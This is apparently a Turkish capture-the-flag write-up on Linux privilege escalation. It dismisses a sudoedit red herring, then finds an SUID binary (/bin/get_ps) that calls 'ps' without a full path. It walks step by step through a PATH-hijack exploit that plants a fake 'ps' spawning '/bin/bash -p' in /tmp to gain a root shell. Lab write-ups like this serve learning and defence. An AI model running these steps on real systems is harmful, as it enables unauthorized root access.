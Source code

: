 Sisteme girer girmez, yetkilerimizi kontrol etmek için standart komutu çalıştırdık: `sudo -l`. Çıktı, bize altın tepside bir fırsat sunuyor gibiydi:
```
User user may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/sudoedit /home/*/*/esc.txt
```
Bu yol, bariz bir şekilde yetki yükseltme yolu gibi duruyordu. Ancak günlerce süren denemelerimiz hatalarla sonuçlandı:
*   **Symlink Saldırısı:** `sudoedit`'in modern versiyonu "editing symbolic links is not permitted" diyerek bunu engelledi.
*   **Editörden Kaçış:** "Can't open file for writing" hatası aldık. Bu hata, `sudoedit`'in editörü `root` olarak değil, bizim kendi `user` yetkilerimizle çalıştırdığını kanıtladı.

**Sonuç:** `sudoedit` yolu, bizi asıl zafiyetten uzaklaştırmak için tasarlanmış, çok zekice hazırlanmış bir **yanıltmaç (Red Herring)** idi.

### Adım 2: Gerçek Zafiyete Dönüş

Yanıltmacı fark edince, temel prensiplere geri döndük: **detaylı enumerasyon**. SUID bitine sahip dosyaları aradık:
```bash
find / -perm -u=s -type f 2>/dev/null
```
Liste uzun olsa da, standart Linux dosyaları arasında bir tane yabancı parlıyordu: `/bin/get_ps`. Onu analiz etmeye karar verdik:
```bash
strace /bin/get_ps
```
`strace` komutu, bir programın yaptığı tüm sistem çağrılarını listeler. Çıktıda şu kritik satırı gördük:
```
execve("ps", ["ps"], 0x7ffd1bfc6b10) = -1 ENOENT (No such file or directory)
```
Bu çıktı, `/bin/get_ps` programının `ps` komutunu **tam yolunu belirtmeden** çağırdığını kanıtlıyordu. Bingo! Aradığımız zafiyet buydu.

### Adım 3: Kusursuz İstismar (The Exploit)

Artık planımız netti:
1.  **Saldırı Alanı Hazırlama:** Herkesin yazabildiği `/tmp` dizinine geçtik.
    ```bash
    cd /tmp
    ```
2.  **Sahte Komutu Yaratma:** `ps` adında bir dosya oluşturduk ve içine `root` kabuğu alacak komutu yazdık.
    ```bash
    echo "/bin/bash -p" > ps
    ```
    *(Not: `-p` bayrağı, `bash`'in SUID bitiyle çalıştırıldığında yetkilerini düşürmesini engeller. Bu yüzden çok kritiktir.)*

3.  **İzinleri Ayarlama:** Sahte script'imizi çalıştırılabilir hale getirdik.
    ```bash
    chmod +x ps
    ```
4.  **PATH'i Ele Geçirme:** Mevcut dizini (`.`), `PATH`'in en başına ekledik. Bu, en kritik adımdı.
    ```bash
    export PATH=.:$PATH
    ```
5.  **Tetiği Çekme:** Zafiyetli programı çalıştırdık.
    ```bash
    /bin/get_ps
    ```
Anında, komut satırı `user@ubuntu:~$`'dan `root@ubuntu:/tmp#`'a dönüştü. Başarıyla `root` olmuştuk!

---